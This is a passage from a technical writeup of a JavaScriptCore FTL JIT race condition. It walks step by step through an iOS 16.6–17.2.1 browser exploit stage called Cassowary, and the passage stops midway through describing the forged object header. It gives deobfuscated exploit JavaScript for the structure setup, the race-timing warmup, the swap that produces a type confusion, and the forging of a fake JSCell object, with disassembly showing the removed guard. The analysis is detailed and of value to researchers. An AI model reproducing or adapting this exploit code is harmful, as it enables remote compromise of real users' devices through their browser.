The IR uses **SSA form** (Static Single Assignment), meaning every variable name is assigned exactly once. If source code assigns to `arr` in two places, SSA splits it into `arr₁` and `arr₂`. The point of this discipline is type analysis: to know what `arr₂` is, look at the one place it was written. Type knowledge is what lets the compiler emit one `ldr` instruction instead of twenty (tag check, shape dispatch, NaN-box decode, ...) for an array load.

Where two branches rejoin, SSA can't keep its one-name-one-write promise: the value could be `arr₁` from one side or `arr₂` from the other. SSA papers over this with a **Phi node**, a fake instruction at the rejoin point that says `arr₃ = Φ(arr₁, arr₂)`, "whichever flowed in."

The exploit's trigger function is built to produce exactly this shape:

```javascript
let arr = obj.p1;                       // arr₁
if (useDivergent) arr = fallbackArray;  // arr₂  (taken branch only)
asDouble[0] = arr[1];                   // reads arr₃ = Φ(arr₁, arr₂)
```

Three lines of source become four basic blocks arranged in a diamond:



Two guards live in this diamond, on two different subjects:

* **`CheckStructure(obj, {S₂, S₆})`** sits in the top block and guards `obj`: it's what makes the offset-based `.p1` dereference safe. There's nothing upstream to make it redundant (the IC's `{S₂, S₆}` is a prediction, not a proven fact, and the guard *is* the bet), so it survives. The exploit doesn't fight that: `obj` will simply be at S₆ when the compiled code runs ([Step 5](#step-5-the-gc-flush-and-the-swap) walks it there).
* **`CheckArray(arr₃, Double)`** sits in the bottom block and guards `arr₃`: it's what makes the raw-double indexed read safe. This is the one the bug deletes.

With CheckStructure pinned in place, two decisions remain:

* **Decision 1** (top block): can the property load `obj.p1` be replaced with a compile-time constant?
* **Decision 2** (bottom block): can the `CheckArray` guard before `arr[1]` be deleted?

The exploit needs decision 1 = **no** and decision 2 = **yes**: the emitted code reads `obj.p1` at runtime, skips the `CheckArray`, and dereferences whatever it found as raw doubles. A correct compiler never reaches that combination (either it knows the value, so there's no runtime read to swap under, or it doesn't, so the guard stays). The `if (useDivergent)` makes it reachable by putting the two decisions in different blocks.

### The TOCTOU

Once the IR is built, the FTL runs a pipeline of dozens of **passes** over it, each pass either gathering information about the graph or rewriting it based on what's been gathered. The passes are scheduled in a fixed order in [`DFGPlan.cpp`](https://github.com/WebKit/WebKit/blob/cbe051a9a376/Source/JavaScriptCore/dfg/DFGPlan.cpp#L382), and the whole pipeline runs on a background thread while JavaScript continues executing on the main thread.

Two of those passes are the bug. They are scheduled directly back-to-back (twice in the FTL pipeline: once unconditionally at [line 382](https://github.com/WebKit/WebKit/blob/cbe051a9a376/Source/JavaScriptCore/dfg/DFGPlan.cpp#L382), again at line 398 if strength reduction changed anything), and they have a producer-consumer relationship: the first one analyzes, the second one acts on the analysis.

**CFA** (Control Flow Analysis) is the analyzer. It walks the IR and records, for each value, what type it could be at runtime. The records go into a per-block table called `valuesAtHead`, and CFA never edits the IR itself; its only output is the table.

The types CFA records form a **lattice** (the order-theorist's, not the cryptographer's): a partially ordered set where any two elements have a *join* (the tightest type covering both) and a *meet* (the loosest type covered by both). The shape is a Hasse diagram with information flowing upward toward ignorance:



When two control-flow paths merge at a Φ node carrying different types, CFA takes the join: `ArrayWithDouble ⊔ ArrayWithDouble = ArrayWithDouble` (no information lost), but `ArrayWithDouble ⊔ SpecInt = ⊤` (everything lost). The same ⊤ shows up when CFA can't pin a property load to a specific value: it's the lattice's "I learned nothing." A guard against a type that's already proven (lower in the lattice than what the guard checks) is redundant; a guard against ⊤ is never redundant. The bug lives in the gap between a stale narrow value and the ⊤ that should have replaced it.

**ConstantFolding** is the editor. It walks the IR and rewrites it: anything provably constant gets replaced with the constant, and any guard provably redundant gets deleted. To know what's provable, it reads CFA's `valuesAtHead` and treats it as ground truth.

Both passes, when they reach a property load, call the same helper, `tryGetConstantProperty`: given an object and an expected structure set (the IC's set), go dereference the live JavaScript heap and report back.

```cpp
// DFGGraph.cpp:1313, tryGetConstantProperty, simplified
// https://github.com/WebKit/WebKit/blob/cbe051a9a376/Source/JavaScriptCore/dfg/DFGGraph.cpp#L1313
for (Structure* s : expectedSet) {
    WatchpointSet* wp = s->propertyReplacementWatchpointSet(offset);
    if (!wp || !wp->isStillValid())            // never created, or already fired → give up
        return JSValue();
    plan.watchpoints().addLazily(wp);          // arm: install gate re-checks; later fire jettisons
}
if (!expectedSet.contains(obj->structure()))   // is obj's *current* structure in the IC's set?
    return JSValue();                          // no → give up
return obj->getDirect(offset);                 // yes → read the slot off the live heap
```

The watchpoint loop is the [safety net](#watchpoints-the-compilers-safety-net): for each Structure in the IC's set, look up the replacement watchpoint at this offset, bail if it's missing or already fired, otherwise arm it on the plan. The IC created these sets back during warmup, one per (Structure, offset) it cached, so the loop finds them in the watched state. What the loop doesn't cover is anything outside `expectedSet`: the structure check on the next line catches an object mid-transit (S₃ isn't in `{S₂, S₆}`, so the second tgcp call fails), but failing cleanly there doesn't undo the watchpoints the *first* call already armed, and those will still read clean at install because they were watching the wrong place.

The two calls run the same C++ microseconds apart, and each one dereferences `obj->structure()` as it is at that instant.

When **CFA's call** runs, `obj` is at a structure in the set, so tgcp succeeds and returns the property's current value (an `ArrayWithDouble`), which CFA writes into `valuesAtHead`.

When **ConstantFolding's call** runs, two outcomes are possible. If `obj`'s structure is still in the set, tgcp succeeds again and ConstantFolding folds the load to a constant; there is no runtime read and no bug. If the main thread moved `obj` to a structure outside the set in the meantime, tgcp fails, the load isn't folded, and it stays as a runtime memory read.

ConstantFolding then reaches the `CheckArray` guard, consults `valuesAtHead` (where CFA wrote `ArrayWithDouble` before the heap moved), and deletes it. Fold reads fresh heap; guard removal reads stale table.

Instrumenting both tgcp call sites with `mach_absolute_time()` and reading the delta puts the gap at about 1700 ticks on Apple Silicon. Moving `obj` to a structure outside the IC's set inside that window gives the load-live-but-check-gone combination; the [four-case table in Step 4](#why-both-extremes-are-harmless-the-half-success-requirement) lays out why neither too-early nor too-late produces an exploitable state.

## The Race

### Threading the Timeline

The setup as the compiler thread starts: `targetObj` is parked at S₂ with `p1 = trainingArray` (an `ArrayWithDouble`). The IC has profiled `{S₂, S₆}`. The main thread is spinning, waiting to fire `delete targetObj.p2` at the right moment ([Step 4](#step-4-the-warmup-racing-the-compiler-thread) below).

1. **CFA, top block.** Reaches the property load, calls tgcp. `targetObj` is at S₂; S₂ is in `{S₂, S₆}`; tgcp reads `p1` off the heap and returns `trainingArray`. CFA records `arr₁ = {trainingArray, ArrayWithDouble}`.
2. **CFA, bottom block.** `arr₂` is `fallbackArray`, also `ArrayWithDouble`. The Phi merges them: `arr₃` loses identity (could be either object) but keeps the type (both inputs agree). CFA writes `arr₃ : ArrayWithDouble` into the bottom block's `valuesAtHead`. CFA is done.
3. **Main thread.** `delete targetObj.p2` fires (the race shot), transitioning `targetObj` from S₂ to S₃. The deletion doesn't touch `p1` and doesn't fire any watchpoint, so CFA's table still says `arr₃` is `ArrayWithDouble` and nothing notices.
4. **ConstantFolding, top block.** Reaches the property load and calls tgcp again, the same C++ a few microseconds later. Now `targetObj` is at S₃, which is *not* in `{S₂, S₆}`, so tgcp returns null and ConstantFolding gets ⊤ for the load. Since ⊤ isn't a constant, the load isn't folded and stays as a runtime memory read. ConstantFolding's local state correctly says `arr₁ = ⊤`, but only within this block.
5. **ConstantFolding, bottom block.** New block (BB#8 in the disasm logs; the load was in BB#4), local state discarded, reseeded from `valuesAtHead` ([DFGInPlaceAbstractState.cpp:74-82](https://github.com/WebKit/WebKit/blob/cbe051a9a376/Source/JavaScriptCore/dfg/DFGInPlaceAbstractState.cpp#L74-L82)). The table says `arr₃` is `ArrayWithDouble`. The `CheckArray` case reads that:

```cpp
// DFGConstantFoldingPhase.cpp:313
// https://github.com/WebKit/WebKit/blob/cbe051a9a376/Source/JavaScriptCore/dfg/DFGConstantFoldingPhase.cpp#L313-L320
case CheckArray: {
    if (!arrayMode.alreadyChecked(m_state.forNode(child1)))  // table says ArrayWithDouble
        break;
    node->remove(m_graph);                                    // already narrow → delete
}
```

Why can't this case go look at memory like tgcp did? Because `arr₃ = Φ(arr₁, arr₂)` is an SSA name with no address behind it. tgcp had a pointer (`targetObj` is a known constant, `p1` is 8 bytes at a known offset). The Phi has only what CFA propagated.

This is exactly why the `if (useDivergent)` exists. Without it, load and guard share a block; ConstantFolding's tgcp result feeds straight into the `CheckArray` decision, both see the same heap, both agree. The `if` inserts a block boundary; ConstantFolding's correct top-block result gets discarded; the bottom block falls back to CFA's stale table.

The next CFA run will recompute the table correctly, but `node->remove()` has already happened and is irreversible. When [Step 5](#step-5-the-gc-flush-and-the-swap) swaps `obj.p1` to a `Contiguous` array, the compiled code reads a pointer as a double.

### Getting Past CheckStructure

`CheckArray` is gone but `CheckStructure({S₂, S₆})` is still sitting in the top block, and `obj` is at S₃ now. If the compiled code runs in this state, the very first guard bails to the interpreter and the unguarded body never executes.

This is what the second IC entry was for. After the race lands, the exploit walks `targetObj` the rest of the way along `divergentObj`'s path (delete `p1`, re-add it, re-add `p2`) until it arrives at S₆, which has the same offsets as S₂ but a different ID, and is a structure the guard accepts. The guard checks `{S₂, S₆}`, `obj` is at S₆, and the check passes.

With a single-entry IC this escape doesn't exist: the guard would be `CheckStructure({S₂})`, checking exactly the structure `tryGetConstantProperty` verified. Staying at S₂ means never firing the race shot (ConstantFolding's tgcp succeeds, the load folds, and there's no live read), while leaving S₂ means the runtime guard catches you. Two entries put one structure of slack between what the compiler verified and what the guard accepts, and the entire exploit lives in that slack.

That slack is the same gap the [replacement watchpoints](#watchpoints-the-compilers-safety-net) leave open. The watchpoints cover (S₂, `p1`) and (S₆, `p1`); the guard accepts S₂ and S₆; both are derived from the same IC profile, so both have the same blind spot. The compiler's safety net and its runtime guard are coextensive, which is exactly the problem: anything that slips past one slips past both. [The Fix](#the-fix) closes the gap by refusing the heap read when there's more than one entry.

## The Exploit

The exploit file, `Stage1_16.6_17.2.1_cassowary.js`, was sourced from [khanhduytran0/coruna](https://github.com/khanhduytran0/coruna) and targets iOS 16.6 through 17.2.1. Coruna's authors codenamed this stage **Cassowary**, and that's how this writeup refers to it from here on. The original is minified (single-letter variable names throughout); the code excerpts in this writeup use descriptive names instead. Where it matters, the original name is noted in a comment.

### Step 1: The Target Arrays

The first objects that take part in the type confusion are a plain two-property object and a two-element array holding it. Together they're the seam where the bug pries open: the array slot holds a pointer, the JIT will be tricked into treating that slot as a raw double, and the object's two inline slots will end up reinterpreted as a JSCell header and a butterfly pointer.

```javascript
pm.phantom = { fakeHeader: 1, fakeButterfly: 2 }; // plain object: 2 inline properties
pm.trapArray = [1.1, pm.phantom];                 // JSArray containing a double AND an object
```

A word on `pm`: it's a plain object the exploit hangs state off, and what goes on it versus what stays a bare `let` is load-bearing. `trigger()` reads `targetObj` and `asDouble` as closure captures of `pm.init`'s locals, which the FTL constant-folds (provably single-assignment); that fold is what lets it ask `tryGetConstantProperty` about `obj.p1` at all. Read `pm.targetObj` instead and it's a mutable property the FTL won't fold, and the bug never triggers. `phantom` and `trapArray` go on `pm` because they're needed after `pm.init` returns, by code that can't see its locals.

`pm.trapArray` has IndexingType `ArrayWithContiguous` (0x09) because it contains mixed types (a double and an object pointer). Its butterfly stores encoded JSValues:

```
pm.trapArray's butterfly:
  elem[0] = 0x3FF399999999999A      (1.1's IEEE bits 0x3FF1... + DoubleEncodeOffset 0x0002_0000_0000_0000)
  elem[1] = 0x0000_XXXX_XXXX_XXXX   (pm.phantom's address; pointers encode as themselves, top 16 bits zero)
```

**Why `pm.phantom` has exactly two properties (`fakeHeader` and `fakeButterfly`)**: After the type confusion shifts the pointer by 16 bytes, `pm.phantom+0x10` (inline[0] = `fakeHeader`) becomes the fake object's JSCell header, and `pm.phantom+0x18` (inline[1] = `fakeButterfly`) becomes its butterfly pointer. Two properties = two controlled 8-byte slots = exactly the two fields the exploit needs. From here on, "the phantom" means this fake object at `pm.phantom+0x10`, not `pm.phantom` itself.

The exploit also creates two pure ArrayWithDouble arrays to train the JIT with:

```javascript
let trainingArray = [1.1, 1.1];    // ArrayWithDouble (0x07)
let fallbackArray = [1.1, 2.2];    // ArrayWithDouble (0x07)
```

### Step 2: Structure-Divergent Objects

Two objects from the same constructor walk the same transition graph and park at different StructureIDs:

```javascript
function n() {}
let targetObj    = Reflect.construct(Object, [], n);   // S₀: empty, prototype = n.prototype
let divergentObj = Reflect.construct(Object, [], n);   // S₀: same constructor → same starting Structure

targetObj.p1 = trainingArray;     // S₀ ─+p1→ S₁  (carves the edge)
targetObj.p2 = trainingArray;     // S₁ ─+p2→ S₂  (carves the edge)  ← targetObj parks here

divergentObj.p1 = 0x1337;         // follows S₀ ─+p1→ S₁  (edge already exists)
divergentObj.p2 = 0x1337;         // follows S₁ ─+p2→ S₂  (edge already exists)
delete divergentObj.p2;           // S₂ ─-p2→ S₃  (fork, not reverse)
delete divergentObj.p1;           // S₃ ─-p1→ S₄
divergentObj.p1 = 0x1337;         // S₄ ─+p1→ S₅
divergentObj.p2 = 0x1337;         // S₅ ─+p2→ S₆  ← divergentObj parks here
```

S₂ and S₆ have identical layouts: `{p1 @ offset 0, p2 @ offset 8}`. Same names, same offsets, different IDs. `0x1337` versus `trainingArray` doesn't matter; that's a value difference, not a shape difference.

The shared constructor puts both objects in the same graph, so when [Step 5](#step-5-the-gc-flush-and-the-swap) needs to move `targetObj` to S₆ to slip past `CheckStructure({S₂, S₆})`, it walks the S₂→S₃→S₄→S₅→S₆ edges `divergentObj` already carved. Why use a *second* object to blaze that trail rather than walk `targetObj` itself there now? Because `targetObj` has to be sitting at S₂ with `p1 = trainingArray` at the moment CFA's tgcp call reads it. That's the heap state the whole bug depends on. If `targetObj` carved its own path to S₆ here, CFA would find it at S₆ with `p1 = 0x1337`, record `SpecInt` instead of `ArrayWithDouble`, and there'd be no narrow type to leave stale. So `divergentObj` does the trailblazing while `targetObj` holds still, and `divergentObj` doubles as the S₆-shaped object the IC sees during training (without it, the IC profile is just `{S₂}` and there's no second entry for the runtime guard to accept).

One more thing this sets up: the race shot in [Step 4](#step-4-the-warmup-racing-the-compiler-thread) is `delete targetObj.p2`, S₂→S₃. The choice of `p2` is incidental; deleting *anything* transitions the structure, and a transition is enough to make ConstantFolding's tgcp fail at the structure check. Deleting `p1` would also work, but it would erase the slot that Step 5 is about to load `trapArray` into, costing one extra add-back. `p2` is the property that's only there to be deleted.

### Step 3: The JIT Trigger Function

```javascript
let lowBits = new Uint32Array(2);
let asDouble = new Float64Array(lowBits.buffer);   // overlapping views for pointer arithmetic

let trigger = function(useDivergent, earlyExit) {
    if (earlyExit) return;                          // early exit during warmup
    let obj = targetObj;                            // default: obj = targetObj
    if (useDivergent) { obj = divergentObj; 0[0]; } // when true: obj = divergentObj

    // ... 36 while loops (see below) ...

    "uo" in obj;                           // HasProperty: forces Structure observation
    let arr = obj.p1;                      // THE LOAD: candidate for tryGetConstantProperty
    if (useDivergent) arr = fallbackArray; // dead during final trigger (useDivergent=false)
    asDouble[0] = arr[1];                  // read element 1 as double
    lowBits[0] = lowBits[0] + 16;          // add 16 to low 32 bits
    arr[1] = asDouble[0];                  // write back modified value

    // ... 36 more while loops ...
};
```

The overlapping `lowBits` (Uint32Array) and `asDouble` (Float64Array) share the same ArrayBuffer. Writing `arr[1]` into `asDouble[0]` stores the 8-byte value as a double. Reading `lowBits[0]` gives the low 32 bits of those bytes. Adding 16 and writing `asDouble[0]` back modifies the pointer by exactly 16 bytes without carrying into `lowBits[1]` (carry would need `lowBits[0]` ≥ 0xFFFFFFF0, and heap addresses don't end that way).

The exploit code is sandwiched between 72 copies of this single-iteration loop, 36 before the load and 36 after:

```javascript
while (h < 1) { guardObj.guard_p1 = 1; h++; }  h--;
```

The body does one property store and one increment, then `h--` resets so the next copy also runs once. The store to `guardObj.guard_p1` is a heap side effect, which is what keeps the optimizer from folding the whole thing away; without it the loop is pure arithmetic on a local and disappears.

These loops directly widen the race window. The window is bounded by CFA's `tryGetConstantProperty` call on one side and ConstantFolding's on the other, and both passes walk the same IR in the same order. The 36 loops *after* the load are nodes that CFA still has to visit after its tgcp call before it can finish and hand off to ConstantFolding; the 36 loops *before* the load are nodes that ConstantFolding has to visit before it reaches its own tgcp call. Both halves stretch the gap. The width scales linearly with loop count, about 18 ticks per loop, from ~140 ticks with no loops to ~1700 at 72. With no loops the window is narrower than the scheduler jitter on the compiler-thread wakeup and the hit rate is zero; at 72 the window clears the jitter floor and the race lands almost every time. More loops would push the rate a little higher but the curve is already near the top, and there's a hard ceiling besides: each loop costs 40 bytecode units, and past 247 per side the function blows past [`maximumFTLCandidateBytecodeCost`](https://github.com/WebKit/WebKit/blob/cbe051a9a376/Source/JavaScriptCore/runtime/OptionsList.h#L289) (20000) and the FTL [refuses to compile it](https://github.com/WebKit/WebKit/blob/cbe051a9a376/Source/JavaScriptCore/ftl/FTLCapabilities.cpp#L483).

The `0[0]` in the divergent branch is not a typo. Indexing into a number leaves the bytecode's array profile blank (there's no array shape to record), and the DFG handles a blank-profile `GetByVal` by inserting `ForceOSRExit` ([DFGFixupPhase.cpp:4036](https://github.com/WebKit/WebKit/blob/cbe051a9a376/Source/JavaScriptCore/dfg/DFGFixupPhase.cpp#L4036)): a terminator that cuts the block off from the merge point. With the divergent branch gone from the CFG, `obj` at the merge is no longer a Phi of two values; it's just `targetObj`. That single concrete identity is what lets `tryGetConstantProperty` read `targetObj.p1` off the heap during compilation. A Phi would have stopped it cold, and without the heap read there is no race. (This same `if (useDivergent)` block does double duty: `0[0]` prunes the CFG here, while `0x1337` poisons the value profile so `CheckArray` lands in the merge block. Step 4's first bullet covers the second effect.)

### Step 4: The Warmup, Racing the Compiler Thread

```javascript
for (let i = 0; i < 16777216; i++) {    // 16.7M iterations
    if (i > 131072) { trigger(/*useDivergent*/false, /*earlyExit*/true); continue; }
    trigger(i % 2 && i < 256, i > 4096);
    if (i == 131072) delete targetObj.p2;   // ← THE RACE SHOT
}
```

It reads as a profiling warmup but is actually a timing weapon.

* **Iterations 0..255**: alternate `targetObj`/`divergentObj` → IC accumulates `{S₂, S₆}`. The `0x1337` in `divergentObj.p1` is not a placeholder; the value's type matters. Recall the bug only fires when `CheckArray` lives in a different block from the property load (so its removal reads the stale lattice instead of ConstantFolding's fresh local state). The compiler decides where to put `CheckArray` based on what it thinks `arr` could be. If every value ever seen at `obj.p1` was an array, the compiler is confident enough to plant the check immediately at the load, in the same block, where the bug can't reach it. But on these 128 iterations `obj.p1` returns `0x1337`, a number, and now the compiler's profile says "this slot might hold a number." It can't put an array-shape check on something that might not be an array, so the check waits until `arr[1]` actually needs it, three blocks downstream, in the merge block where the stale lattice lives. (Tested: change `0x1337` to `[3.3, 4.4]` and `CheckArray` jumps to the load block; the bug never fires.) The cost is that on those same iterations `arr` is the number `0x1337`, and the write `arr[1] = asDouble[0]` is `0x1337[1] = ...`, which strict mode rejects with a TypeError. The next line, `if (useDivergent) arr = fallbackArray`, swaps in a real array before the write so the function survives warmup.
* **256..4096**: `targetObj` only, dropping the `useDivergent` branch profile to ~3% → FTL speculates it dead → `obj` constant-folds.
* **4097..131071**: early-return spin. Around ~100K the execution counter crosses the FTL threshold, a compile job enqueues, the compiler thread wakes up. Main thread keeps spinning at a few hundred cycles per iteration.
* **Iteration 131,072: the shot.**



**Why iteration 131,072 specifically?** Dead reckoning: the main thread can't observe the compiler thread, only count. The window is fixed in compiler-thread time (~1700 ticks between CFA's tgcp and ConstantFolding's tgcp); the aim point is in main-thread iterations; the conversion depends on relative core speeds, and 131,072 is the iPhone's empirical sweet spot. What keeps it from being deterministic is OS scheduler jitter on the compiler-thread wakeup (σ ≈ 1200 ticks), which a 1700-tick window clears. On an M-series MacBook the main thread runs faster relative to the compiler thread; cassowary's constant fires the delete well before CFA wakes up and the hit rate falls to ~1%. Recalibrating the pivot upward fixes it; the [PoC section](#the-pocs) has the M-series numbers.

**Why 16.7 million total?** The bad code is installed by ~170K. Everything after is a 100× safety margin for the slowest target device. On M-series, 250K is enough.

#### Why both extremes are harmless: the half-success requirement

A folded constant means no runtime load: Step 5's `targetObj.p1 = pm.trapArray` swap is invisible to code that already baked the value in. The four cases:

| CFA's tgcp | CFold's tgcp | CheckArray | GetByOffset | Result |
|---|---|---|---|---|
| ✓ | ✓ | removed | **folded to constant** | reads `trainingArray[1]` = 1.1, harmless |
| ✗ | ✗ | **survives** | live load | `trapArray` caught by guard, OSR exit |
| ✗ | ✓ | survives | folded to constant | reads `trainingArray[1]` = 1.1, harmless |
| **✓** | **✗** | **removed** | **live load** | **`trapArray` reaches unguarded raw-double load** |

Only one row is exploitable: CFA must succeed (publishes narrow type → guard removed) **and** ConstantFolding must fail (load not folded → stays live). The Step 5 disassembly shows both: `ldur x1, [x0, #-16]` is a live load (not `movz/movk`), and the `ldurb/and/cmp/b.ne` check is gone.

### Step 5: The GC Flush and the Swap

```javascript
for (let i = 0; i < 1048576; i++) new Array(13.37, 13.37, 13.37, 13.37);
```

1M throwaway arrays, the flush from the GC section. Pushes the allocator's block cursor past the fragmented region so Step 7 lands in a block that sweeps to one clean interval, and pushes back the next collection.

```javascript
delete targetObj.p1;                                // structure transition step
targetObj.p1 = pm.trapArray;                        // ← the actual payload
targetObj.p2 = 1;                                   // structure transition step (lands at S₆)
trigger(false/*useDivergent*/, false/*earlyExit*/); // run the installed FTL code
```

The `delete p1; p1 = ...; p2 = 1` dance walks `targetObj` to S₆ so the runtime `CheckStructure({S₂, S₆})` passes. The line that does the work is the middle one: an ordinary property write changing what `targetObj.p1` holds.

#### Walking through the watchpoint gap

By this point the compiled code is installed. The plan's install-time check ([DFGPlan.cpp:556](https://github.com/WebKit/WebKit/blob/cbe051a9a376/Source/JavaScriptCore/dfg/DFGPlan.cpp#L556)) walked every armed watchpoint, found them all in the watched state, and let the install proceed. The (S₂, `p1`) and (S₆, `p1`) replacement watchpoints are still armed on the now-live `CodeBlock`; if either fires from here on, the code is jettisoned. So this three-line walk has to change the value at `p1`'s offset without firing either of them.



Reading left to right: `targetObj` enters at S₂ holding `p1 = trainingArray`. The race shot already moved it to S₃ (Step 4). `delete p1` moves S₃ → S₄ and the `p1` slot ceases to exist. `p1 = trapArray` moves S₄ → S₅: this is an *add* (S₄ has no `p1`), the engine takes the `isAdded` branch in [`putDirectInternal`](https://github.com/WebKit/WebKit/blob/cbe051a9a376/Source/JavaScriptCore/runtime/JSObjectInlines.h#L398), and `didReplaceProperty` is never called. `p2 = 1` moves S₅ → S₆, also an add.

The replacement watchpoints at the endpoints are watching for an in-place write at S₂ or S₆ specifically. The transition watchpoints at S₂ through S₅ all fired long ago when `divergentObj` carved this path back in Step 2 (one-shot, already invalidated, no-op now). And S₃, S₄, S₅ have no replacement watchpoints at all because the IC never profiled them: `propertyReplacementWatchpointSet(0)` returns null on all three. Verified under lldb: a breakpoint on `firePropertyReplacementWatchpointSet` records zero hits across the entire S₂→S₆ walk, while the `m_state` byte on (S₂, `p1`)'s `WatchpointSet` stays at `0x01` (`IsWatched`) from creation through the end of the run. The walk isn't dodging anything; delete-then-add is mechanically a different thing from replace and the watchpoint is keyed on the mechanical operation, not the semantic outcome.

Semantically `p1` was `trainingArray` and is now `trapArray`. Mechanically nothing replaced anything. The engine's bookkeeping is correct on its own terms and useless on ours.

What happens when `trigger(false, false)` runs depends entirely on whether the race in Step 4 was won.

#### The two captures: `safe` and `buggy`

The disasm snippets below come from `poc/ftl-disasm-safe.log` and `poc/ftl-disasm-buggy.log`, two compiles of the same `trigger()` function on the same JSC binary that differ only in whether `delete p2` landed inside the CFA→CFold window. The race is awkward to win on demand, so the buggy log was captured under a custom JSC patch (`dfg-race-widen.patch`, see [`poc/REPRODUCING.md`](poc/REPRODUCING.md)) that forces CFA's first tgcp call to succeed and ConstantFolding's to fail, while the safe log was captured by firing the `delete` ~80K iterations early so both calls fail.

The graph dump labels every IR node with an ID like `D@569` and every basic block with a `BB#`. This is the [diamond from the IR section](#the-ir-and-the-trigger-functions-shape) with the actual IDs filled in:


(IDs are from `safe.log`. In `buggy.log` the `CheckArray` nodes are removed and 614/621 get reassigned to unrelated `ZombieHint`/`LoopHint` nodes; grep accordingly.)

Both guards check `arr`'s array shape, with one wrinkle: D@614 masks the IndexingType byte with `#0xf` (just the shape nibble) while D@621 masks with `#0x1f` (shape plus the `IsArray` bit). Both read their answer from the same lattice slot, `valuesAtHead[D@569]`, the entry for the Phi. If one is fooled, both are. The two log files differ only in what CFA wrote into that slot:

| | `ftl-disasm-safe.log` | `ftl-disasm-buggy.log` |
|---|---|---|
| Race | **lost** | **won** |
| `valuesAtHead[D@569]` (BB#6 tail → BB#8)¹ | `(HeapTop, TOP, TOP)` ← "could be anything" | `(Array, ArrayWithDouble, Object: 0x10f0903c8)` ← "definitely this one array" |
| `grep -c CheckArray` | 4 (two guards × two dump passes) | 0 (both removed) |
| Compiled instruction count | 33 | 26 |

The triple notation is JSC's printed `AbstractValue`: (predicted type, array shape, structure set). `TOP` is "anything" and `HeapTop` is "any heap value." A `CheckArray` against a TOP type can't be proven redundant, so it stays; against a known `ArrayWithDouble` it's a tautology, so it goes.

¹ The graph dump runs after CFA #2 has already corrected the table, so grepping BB#8's `valuesAtHead` directly will show TOP in *both* logs. The narrow value ConstantFolding actually read survives in BB#6's `valuesAtTail` (`buggy.log:591`), which is what feeds BB#8.

The 7-instruction difference (33 → 26) is exactly the two guards: 4 instructions for D@614 (`ldurb`/`and`/`cmp`/`b.ne`) plus 3 for D@621 (the `ldurb` reads the same IndexingType byte D@614 already loaded, so the optimizer reuses it; only `and`/`cmp`/`b.ne` are new).

**Race lost (CheckArray survived).** The FTL code looks like this, captured from `JSC_dumpFTLDisassembly`:

```asm
ldur  x1, [x0, #-16]    ; x1 = targetObj.p1  (x0=butterfly; p1 is out-of-line at -16)
                        ;     (movz/movk: x0 ← 0xfffe000000000002, NotCellMask)
tst   x1, x0            ; cell-tag check: is x1 a pointer?
b.ne  <OSR exit>
ldurb w2, [x1, #4]      ; ─┐  D@614 CheckArray:
and   w0, w2, #0xf      ;  │  read IndexingType byte from JSCell header,
cmp   w0, #7            ;  │  mask shape bits, check for ArrayWithDouble (=7)
b.ne  <OSR exit>        ; ─┘  pm.trapArray's IndexingType is 9 → branch taken
                        ;     OSR exit. Interpreter takes over. Nothing happens.
```

**Race won (CheckArray removed).** Same load, same cell-tag check, then four instructions are missing:

```asm
ldur  x1, [x0, #-16]    ; x1 = targetObj.p1  (x0=butterfly; p1 is out-of-line at -16)
                        ;     (movz/movk: x0 ← 0xfffe000000000002, NotCellMask)
tst   x1, x0            ; cell-tag check: is x1 a pointer?
b.ne  <OSR exit>        ; pm.trapArray is a pointer → falls through
                        ; ─── ldurb / and / cmp / b.ne MISSING ───
                        ;     CheckArray D@614 was node->remove()'d
                        ;     by ConstantFolding reading stale lattice
ldur  x0, [x1, #8]      ; x0 = pm.trapArray->butterfly
ldur  w2, [x0, #-8]     ; bounds: pm.trapArray.length
cmp   w2, #1
b.ls  <OSR exit>        ; length is 2 → falls through
ldur  Q0, [x0, #8]      ; ◄═══ d0 = trapArray.butterfly[1]
                        ;       (Q0 is a 16-byte load; high 64 bits discarded)
                        ;       = encoded pointer to pm.phantom
                        ;       = 0x0000_XXXX_XXXX_XXXX as a "double"
fcmp  d0, d0            ; NaN check (heap pointers aren't NaN)
b.ne  <OSR exit>        ; falls through

; ... asDouble[0] = d0; lowBits[0] += 16; d0 = asDouble[0] ...

stur  d0, [x0, #8]      ; ◄═══ trapArray.butterfly[1] = d0
                        ;       writes raw double bits into a Contiguous slot.
                        ;       The engine will read this back as a JSCell*
                        ;       pointing at pm.phantom + 16.
```

The load is **live** (`ldur`, not `movz/movk`) and the guard is gone: this is the half-success row from the four-case table, observed in machine code.

Both the read-side `CheckArray` (D@614, guarding `arr[1]` on the right of the `=`) and the write-side `CheckArray` (D@621, guarding `arr[1]` on the left) are removed by the same stale `valuesAtHead[D@569]` entry. So the read confusion (pointer bits → double) and the write confusion (double bits → pointer slot) always fire together. Over 200 instrumented runs they coupled 147/147.

The `asDouble`/`lowBits` overlay does the +16 (Step 3) and writes back through the same unguarded store. `pm.trapArray[1]` now holds a JSCell pointer to `pm.phantom + 16`.

**The type confusion fires exactly once.**

### Step 6: The Phantom Object

After the type confusion, `pm.trapArray[1]` points to `pm.phantom + 16`:

![Phantom object layout: trapArray's butterfly elem[1] points at phantom; the type confusion adds 16 to that pointer, redirecting it to phantom's inline storage where fakeHeader and fakeButterfly become a forged JSCell](images/phantom-layout.svg)

The engine dereferences `pm.phantom+0x10` as an object: the two inline property values become the phantom's JSCell header and butterfly pointer. Set both before the confusion fires:

```javascript
pm.phantom.fakeHeader = pm.packHeader([0x31337, 16783110]);
pm.phantom.fakeButterfly = overlapObj;
```

`fakeButterfly = overlapObj` means `phantom[i]` reads `*(addr(overlapObj) + i*8)`, raw memory as array elements.

#### The fake header

```javascript
packHeader: function(t) {
    pm.tmput32[0] = t[0];              // low 32 = StructureID
    pm.tmput32[1] = t[1] - 131072;     // high 32: pre-subtract DoubleEncodeOffset
    return pm.tmpFl[0];
}
```

`131072 = 0x20000` is the offset's contribution to the high uint32. JSC adds it on store; pack subtracts it; the stored bytes are correct:

```
pm.packHeader([0x31337, 16783110]):
  tmput32[0] = 0x31337           = 0x00031337
  tmput32[1] = 16783110 - 131072 = 16652038 = 0x00FE1706
  Float64 raw bits = 0x00FE1706_00031337

JSC stores pm.phantom.fakeHeader: adds DoubleEncodeOffset:
  0x00FE1706_00031337 + 0x00020000_00000000 = 0x01001706_00031337
  (0xFE + 0x02 = 0x100: byte 6 becomes 0x00, carry → byte 7 becomes 0x01)

Final raw bytes at pm.phantom+0x10 (the phantom's JSCell header):
  Bytes 0-3: StructureID    = 0x00031337 = 201527 (0x31337)
  Byte 4:    IndexingType   = 0x06 (NonArrayWithDouble)
  Byte 5:    JSType         = 0x17 (23 = ObjectType)
